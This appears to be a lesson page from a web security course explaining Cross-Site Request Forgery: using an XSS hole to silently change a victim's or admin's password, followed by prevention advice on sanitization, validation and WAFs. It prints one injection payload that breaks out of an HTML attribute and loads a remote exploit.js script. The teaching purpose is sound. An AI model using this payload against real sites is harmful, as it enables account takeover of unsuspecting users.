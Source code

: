 ## Cross-Site Request Forgery (CSRF)

* * * * *

The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf). `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:

```html
"><script src=//www.example.com/exploit.js></script>
```

The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e., `JavaScript` code that changes our password for this specific web application).

* * * * *

### Prevention
----------

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

| Type | Description |
| --- | --- |
| `Sanitization` | Removing special characters and non-standard characters from user input before displaying it or storing it. |
| `Validation` | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format) |

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like `HTML Injection`, `XSS`, or `CSRF`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

